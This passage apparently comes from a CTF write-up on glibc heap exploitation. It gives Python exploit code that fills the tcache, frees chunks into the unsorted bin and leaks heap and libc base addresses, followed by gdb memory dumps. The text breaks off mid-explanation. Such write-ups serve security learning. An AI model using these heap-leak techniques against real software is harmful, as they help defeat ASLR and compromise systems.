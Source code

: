 ```py
#Add 2 chunks of 0x217
add(0,'0'*0x217)
add(1,'1'*0x217)

#Fill 0x217 tcache
for _ in xrange(7):
    add(2,'2'*0x217)
    free(2)

add(2,'2'*0x217)
add(0,'3'*0x1f0)
```

Our aim is to send two chunks into the same size unsorted bins without coalescing. Hence we now send two chunks from different locations of heap so as to prevent merging and sending two separate chunks into unsorted bin and subsequently to the small bin thereafter
```py

free(2) #Chunk 2 also goes into unsorted bin
free(1) #Chunk 1 also goes into unsorted bin

#Heap
view(1)
io.recvuntil("hero name: ")
heap_base = u64(io.recv(6) + '\x00'*2) -  0x1570

#Libc
view(2)
io.recvuntil("hero name: ")
libc_base = u64(io.recv(6) + '\x00'*2) - 0x219ca0

log.info("Heap -> " + hex(heap_base))
log.info("Libc -> " + hex(libc_base))

```
From now on , it is better we have a look at the memory layout at each step for better understanding.
For the sake of brevity , I will just show the dump of only few memory blocks of each chunk.

```sh
gdb-peda$ x/6gx 0x555555559480-0x10
0x555555559470:	0x0030303030303030	0x0000000000000221 -> This is chunk 1 which we freed
0x555555559480:	0x000055555555a570	0x00007ffff7fefca0
0x555555559490:	0x3131313131313131	0x3131313131313131

gdb-peda$ x/6gx 0x55555555a580-0x10
0x55555555a570:	0x0032323232323232	0x0000000000000221 -> This is chunk 2 
0x55555555a580:	0x00007ffff7fefca0	0x0000555555559470
0x55555555a590:	0x3232323232323232	0x3232323232323232

```

Also have a look at `main_arena`
